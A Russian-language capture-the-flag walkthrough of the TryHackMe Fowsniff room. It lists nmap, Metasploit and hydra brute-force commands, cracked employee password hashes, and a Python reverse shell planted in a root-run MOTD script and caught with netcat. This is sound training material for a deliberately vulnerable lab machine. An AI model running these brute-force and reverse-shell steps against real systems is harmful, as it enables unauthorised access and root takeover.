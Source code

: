 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Fowsniff CTF](https://tryhackme.com/r/room/ctf) 

Всего 1 заданиe:
## Задание 1
Эта машина boot2root великолепна для новичков. Вам придется перечислить эту машину, найдя открытые порты, провести 
некоторые онлайн-исследования (удивительно, сколько информации может найти для вас Google), расшифровать хэши, 
перебрать вход в систему pop3 и многое другое!

Это будет структурировано, чтобы пройти через то, что вам нужно сделать, шаг за шагом. Убедитесь, что вы подключены 
к нашей сети 

Спасибо berzerk0  за создание этой машины. Эта машина используется здесь с явного разрешения создателя <3 

### Ответьте на вопросы ниже
Разверните машину. В правом верхнем углу вы увидите кнопку «Развернуть» . Нажмите на нее, чтобы развернуть машину в 
облаке. Подождите минуту, пока она не станет активной. 
```commandline
Ответ не нужен
```
Используя nmap, просканируйте эту машину. Какие порты открыты?
```commandline
nmap -Pn -sC -sV -A
```
```commandline
Ответ не нужен
```
Используя информацию из открытых портов. Осмотритесь. Что вы можете найти?

Подключение к веб-серверу показывает, что компания подверглась атаке:

Внутренняя система Fowsniff подверглась утечке данных, в результате которой были раскрыты имена пользователей и пароли сотрудников.

Информация о клиенте не пострадала.

В связи с высокой вероятностью того, что информация о сотрудниках стала общедоступной, всем сотрудникам было поручено немедленно сменить свои пароли.

Атакующие также смогли взломать наш официальный аккаунт @fowsniffcorp Twitter. Все наши официальные твиты были удалены, и злоумышленники могут опубликовать конфиденциальную информацию через этот канал. Мы работаем над тем, чтобы решить эту проблему как можно скорее.

Мы восстановим полную мощность после модернизации обслуживания.
Поиск аккаунта Twitter (@fowsniffcorp), упомянутого в сообщении, приводит к адресу https://twitter.com/fowsniffcorp ,
где мы можем найти твит со ссылкой на https://pastebin.com/NrAqVeeX . 

```commandline
Ответ не нужен
```
Можете ли вы с помощью Google найти какую-либо публичную информацию о них?

Подсказка: существует папка Pastebin со всеми адресами электронной почты и хэшами сотрудников компании.

В контенте раскрываются адреса электронной почты и хэши паролей.

```commandline
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4 
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56 
tegel@fowsniff:1dc352435fecca338acfd4be10984009 
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb 
seina@fowsniff:90dc16d47114aa13671c697fd506cf26 
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd 
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b 
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11 
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
```
```commandline
Ответ не нужен
```
Можете ли вы расшифровать эти md5 хеши? Вы даже можете использовать сайты типа hashkiller, чтобы расшифровать их.
Используя https://hashes.com/en/decrypt/hash , мы можем восстановить 8 паролей из 9:
```commandline
Email	            MD5 hash	                        password
mauer@fowsniff	    8a28a94a588a95b80163709ab4313aa4	mailcall
mustikka@fowsniff	ae1644dac5b77c0cf51e0d26ad6d7e56	bilbo101
tegel@fowsniff	    1dc352435fecca338acfd4be10984009	apples01
baksteen@fowsniff	19f5af754c31f1e2651edde9250d69bb	skyler22
seina@fowsniff	    90dc16d47114aa13671c697fd506cf26	scoobydoo2
stone@fowsniff	    a92b8a29ef1183192e3d35187e0cfabd	-
mursten@fowsniff	0e9588cb62f4b6f27e33d449e2ba0b3b	carp4ever
parede@fowsniff	    4d6e42f56e127803285a0a7649b5ab11	orlando12
sciana@fowsniff	    f7fd98d380735e859f8b2ffbbede5a7e	07011972
```

```commandline
Ответ не нужен
```
Используя полученные вами имена пользователей и пароли, можете ли вы применить Metasploit для взлома пароля pop3?
Подсказка: в metasploit есть пакет под названием: auxiliary/scanner/pop3/pop3_login, в который вы можете ввести все 
найденные вами имена пользователей и пароли для взлома службы pop3 этой машины. 

Мы можем использовать модуль Metasploit pop3_loginдля взлома службы POP3, используя найденные ранее учетные данные.
```commandline
msfconsole -q
use auxiliary/scanner/pop3/pop3_login
show options 
set rhost <IP> 
set user_file /data/Fowsniff_CTF/files/usernames.txt 
set pass_file /data/Fowsniff_CTF/files/passwords.txt 
run 
```
или можно использовать гидра, она будет быстрее
```commandline
hydra -L usernames.txt -P passwords.txt pop3://<IP> 
логин: seina пароль: scoobydoo2
```
```commandline
Ответ не нужен
```
Какой пароль у seina для доступа к почтовому сервису?
```commandline
scoobydoo2
```
Можете ли вы подключиться к службе pop3 с ее учетными данными? Какую информацию об электронной почте вы можете собрать?
```commandline
telnet <IP> 110
логин: seina пароль: scoobydoo2
retr 1
# Временный пароль для SSH - "S1ck3nBluff+secureshell". 
retr 2
```
```commandline
Ответ не нужен
```
Просматривая ее электронную почту, какой временный пароль был установлен для нее?
```commandline
S1ck3nBluff+secureshell
```
В электронном письме, кто его отправил? Используя пароль из предыдущего вопроса и имя пользователя отправителя, 
подключитесь к машине с помощью SSH. 
```commandline
hydra -L sshusers.txt -p S1ck3nBluff+secureshell ssh://<IP>
ssh baksteen@<IP>
```
```commandline
Ответ не нужен
```
После подключения, к каким группам принадлежит этот пользователь? Есть ли какие-нибудь интересные файлы, которые 
может запустить эта группа? 
```commandline
id
find / -type f -group users 2>/dev/null
ssh baksteen@<IP>
```
Скрипт /opt/cube/cube.shи нтересен тем, что он отображает баннер, который отображается при подключении к SSH-сервису. 
Кроме того, мы можем его модифицировать. Это значит, что мы можем заменить его содержимое обратной оболочкой.
```commandline
Ответ не нужен
```
Теперь, когда вы нашли файл, который может редактировать группа, можете ли вы отредактировать его, включив в него обратную оболочку?

Обратная оболочка Python:
`python3 -c 'import socket,subprocess, os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((<IP>,1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
`
Другие обратные оболочки: здесь.
```commandline
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
```commandline
Ответ не нужен
```
Если вы еще не узнали, этот файл запускается как root, когда пользователь подключается к машине с помощью SSH. Мы 
знаем это, поскольку при первом подключении мы видим, что нам выдается баннер (с fowsniff corp). Посмотрите в файле 
/etc/update-motd.d/ . Если (после того, как мы поместили нашу обратную оболочку в файл cube) мы затем включим этот 
файл в файл motd.d, он запустится как root, и мы получим обратную оболочку как root!
```commandline
grep cube * 
sh /opt/cube/cube.sh
```
```commandline
Ответ не нужен
```
Запустите прослушиватель netcat (nc -lvp 1234) и затем повторно войдите в службу SSH. Затем вы получите обратную 
оболочку в вашем сеансе netcat как root! 
Давайте отключимся от нашего сеанса SSH и откроем прослушиватель (адаптируем порт в соответствии с указанным в 
обратной оболочке):
```commandline
rlwrap nc -nlvp 4444
id
cd /root
ls -la
cat flag.txt
```
```commandline
Ответ не нужен
```
Если вы действительно застряли, вот блестящее пошаговое руководство: https://www.hackingarticles.in/fowsniff-1-vulnhub-walkthrough/ 

Если вам так проще, следуйте этому пошаговому руководству, разместив машину на объекте.
```commandline
Ответ не нужен
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)